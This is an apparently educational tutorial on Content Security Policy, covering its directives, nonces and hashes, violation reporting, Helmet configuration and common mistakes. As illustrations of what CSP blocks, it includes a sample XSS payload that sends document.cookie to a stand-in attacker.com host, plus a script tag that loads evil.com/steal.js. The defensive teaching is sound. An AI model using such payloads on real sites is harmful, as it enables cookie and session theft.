


**Content Security Policy (CSP)** is a browser security mechanism that helps prevent attacks such as:

- Cross-Site Scripting (**XSS**)
- Data injection attacks
- Malicious third-party scripts
- Clickjacking
- Unauthorized resource loading

CSP works by allowing the **server to define which resources a browser is allowed to load and execute**.

Instead of trusting everything by default, CSP enforces a **whitelist security model**.

The browser will **block anything that is not explicitly allowed**.

---

## The Core Problem CSP Solves

Modern websites load many types of resources:

- JavaScript
- CSS
- Fonts
- Images
- APIs
- third-party analytics scripts
- advertisements

Without restrictions, any injected script can execute.

Example malicious script injection:

```html
<script>
fetch("https://attacker.com/steal?cookie=" + document.cookie)
</script>
````

If the page is vulnerable to **XSS**, this script runs immediately.

CSP acts like a **security guard that decides which scripts are allowed to run**.

---

## Real World Analogy

Imagine an **airport security checkpoint**.

Without CSP:

```
Anyone can enter the airport.
```

With CSP:

```
Only passengers with approved boarding passes can enter.
```

Similarly, CSP allows only **approved sources of resources**.

| Resource                 | Allowed? |
| ------------------------ | -------- |
| Scripts from your domain | ✅        |
| Trusted CDN              | ✅        |
| Random attacker site     | ❌        |

---

## How CSP Works

The server sends a **CSP policy** in HTTP response headers.

Example response:

```http
Content-Security-Policy: default-src 'self';
```

This tells the browser:

```
Only load resources from the same origin.
```

If a script tries to load from another domain:

```
The browser blocks it immediately.
```

---

## CSP Request Flow



The browser enforces CSP **before executing scripts**.

---

## Example CSP Header

```http
Content-Security-Policy:
default-src 'self';
script-src 'self' https://cdn.example.com;
img-src 'self' https://images.example.com;
```

Explanation:

| Directive   | Meaning                         |
| ----------- | ------------------------------- |
| default-src | fallback rule for all resources |
| script-src  | allowed JavaScript sources      |
| img-src     | allowed image sources           |

---

## CSP Directives Explained

CSP consists of **directives** controlling different resource types.

---

### 1. default-src

Fallback rule if no specific directive exists.

Example:

```http
default-src 'self'
```

Meaning:

```
Only load resources from the same domain.
```

---

### 2. script-src

Controls where JavaScript can load from.

Example:

```http
script-src 'self' https://cdn.jsdelivr.net
```

Allowed sources:

* current domain
* jsdelivr CDN

Blocked sources:

```
https://malicious-site.com/script.js
```

---

### 3. style-src

Controls CSS sources.

Example:

```http
style-src 'self' https://fonts.googleapis.com
```

---

### 4. img-src

Controls image sources.

Example:

```http
img-src 'self' https://images.example.com data:
```

This allows:

* same origin images
* CDN images
* base64 encoded images

---

### 5. font-src

Controls font loading.

Example:

```http
font-src https://fonts.gstatic.com
```

---

### 6. connect-src

Controls API calls and fetch requests.

Example:

```http
connect-src https://api.example.com
```

Applies to:

* fetch
* WebSocket
* EventSource
* XMLHttpRequest

---

### 7. frame-src

Controls which sites can be embedded using iframes.

Example:

```http
frame-src https://youtube.com
```

---

### 8. object-src

Controls legacy plugins.

Example:

```http
object-src 'none'
```

Recommended to disable completely.

---

## CSP Source Values

Sources define **where resources are allowed from**.

---

### self

Allows the same origin.

Example:

```http
script-src 'self'
```

---

### *

Allow everything.

```http
script-src *
```

⚠️ **This defeats the purpose of CSP.**

---

### Specific Domains

Example:

```http
script-src https://cdn.example.com
```

---

### Data URIs

Example:

```http
img-src data:
```

Allows base64 images.

---

### Nonces

Nonces allow specific inline scripts to run.

Example header:

```http
Content-Security-Policy: script-src 'nonce-abc123'
```

HTML:

```html
<script nonce="abc123">
console.log("allowed")
</script>
```

Any script without the nonce is blocked.

---

### Hash-Based CSP

Instead of nonces, CSP can allow scripts using **hashes**.

Example:

```http
script-src 'sha256-abc123...'
```

The hash corresponds to the script content.

---

## Why Inline Scripts Are Dangerous

Without CSP, inline scripts execute automatically.

Example:

```html
<script>alert("XSS attack")</script>
```

With strict CSP:

```
Inline scripts are blocked.
```

Unless allowed using:

```
nonce
hash
unsafe-inline (not recommended)
```

---

## CSP and XSS Protection

CSP significantly reduces the impact of XSS attacks.

Example attack:

```html
<script src="https://evil.com/steal.js"></script>
```

CSP policy:

```http
script-src 'self'
```

Result:

```
Browser blocks evil.com script
```

---

## CSP Blocking Example

Request:

```
https://evil.com/script.js
```

CSP:

```http
script-src 'self'
```

Browser console error:

```
Refused to load script because it violates Content Security Policy
```

---

## CSP Violation Reporting

CSP can report violations.

Example:

```http
Content-Security-Policy:
default-src 'self';
report-uri /csp-report
```

When a violation occurs:

```json
{
  "violated-directive": "script-src",
  "blocked-uri": "https://evil.com/script.js"
}
```

This helps detect attacks.

---

## CSP Report-Only Mode

Before enforcing CSP, it can run in **report-only mode**.

Example:

```http
Content-Security-Policy-Report-Only:
default-src 'self'
```

Behavior:

```
Violations are reported but not blocked.
```

Useful during development.

---

## Full CSP Example

Example production CSP:

```http
Content-Security-Policy:
default-src 'self';
script-src 'self' https://cdn.jsdelivr.net;
style-src 'self' https://fonts.googleapis.com;
img-src 'self' https://images.example.com data:;
font-src https://fonts.gstatic.com;
connect-src https://api.example.com;
frame-src https://youtube.com;
object-src 'none';
```

---

## Real World Architecture Example

Imagine this architecture:



CSP policy:

```http
script-src 'self' https://cdn.example.com
img-src https://images.example.com
connect-src https://api.example.com
```

---

## CSP in Node.js Example

Example Express middleware:

```javascript
import helmet from "helmet"
import express from "express"

const app = express()

app.use(
  helmet.contentSecurityPolicy({
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'", "https://cdn.jsdelivr.net"],
      imgSrc: ["'self'", "https://images.example.com"],
      connectSrc: ["'self'", "https://api.example.com"]
    }
  })
)
```

Helmet automatically sets CSP headers.

---

## CSP vs CORS vs CSRF

These three mechanisms serve different purposes.

| Security Mechanism | Purpose                    |
| ------------------ | -------------------------- |
| CSP                | Prevent script injection   |
| CORS               | Control cross-origin reads |
| CSRF               | Prevent forged requests    |

Example:

```
XSS → CSP protection
Cross-origin API calls → CORS
Forged authenticated requests → CSRF protection
```

---

## Common CSP Mistakes

---

### 1. Using `unsafe-inline`

Example:

```http
script-src 'unsafe-inline'
```

This allows inline scripts.

```
XSS protection is weakened.
```

---

### 2. Using wildcard `*`

Example:

```http
script-src *
```

This allows scripts from anywhere.

---

### 3. Allowing too many domains

Example:

```http
script-src *.cdn.com *.ads.com *.analytics.com
```

Expands attack surface.

---

## Best Practices for CSP

Recommended secure policy:

```
default-src 'self'
object-src 'none'
base-uri 'self'
frame-ancestors 'none'
```

Prefer:

```
nonce-based scripts
```

Avoid:

```
unsafe-inline
unsafe-eval
```

---

## Production CSP Strategy

Step-by-step approach:

1. Start with **Report-Only mode**
2. Observe violations
3. whitelist required domains
4. switch to **enforced CSP**

---

## Modern Browser Support

CSP is supported by all major browsers.

| Browser | Supported |
| ------- | --------- |
| Chrome  | ✅         |
| Firefox | ✅         |
| Safari  | ✅         |
| Edge    | ✅         |

---

## Key Takeaways

* CSP prevents malicious scripts from executing
* It enforces a **whitelist model for resource loading**
* It is one of the strongest defenses against **XSS attacks**
* Policies are enforced directly by the **browser**
* Best practice is using **nonces or hashes instead of inline scripts**

---

Content Security Policy is a critical layer in modern web security. Combined with **CSRF protection, proper CORS configuration, and secure authentication**, it forms the foundation of a hardened web application.